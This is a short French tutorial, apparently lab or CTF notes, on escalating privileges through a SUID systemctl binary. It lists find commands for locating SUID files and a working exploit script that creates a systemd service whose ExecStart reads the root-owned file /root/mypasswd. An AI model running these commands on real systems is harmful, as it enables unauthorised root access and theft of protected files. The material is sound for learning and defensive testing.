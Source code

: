 Vulnérabilité SUID avec systemctl
===

Recherche de tous les fichiers en SUID sur le serveur via :

```bash
$ find / -user root -perm -4000 -print 2>/dev/null
/bin/umount
/bin/mount
/bin/systemctl
/bin/passwd
/bin/sudo
/bin/newgrp
/bin/mount
[...]
```

Ou :

```bash
$ find / -perm -u=s -type f 2>/dev/null
$ find / -user root -perm -4000 -exec ls -ldb {} \;
```

On remarque que **/bin/systemctl** est de type **SUID**.
Après quelques recherches, on remarque qu'on peut exploiter cette faille avec :

```bash
sudo sh -c 'cp $(which systemctl) .; chmod +s ./systemctl'

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/mypasswd"
[Install]
WantedBy=multi-user.target' > $TF

./systemctl link $TF

./systemctl enable --now $TF
```

Ce script permet ici, d'afficher le contenu présent dans **/root/mypasswd**.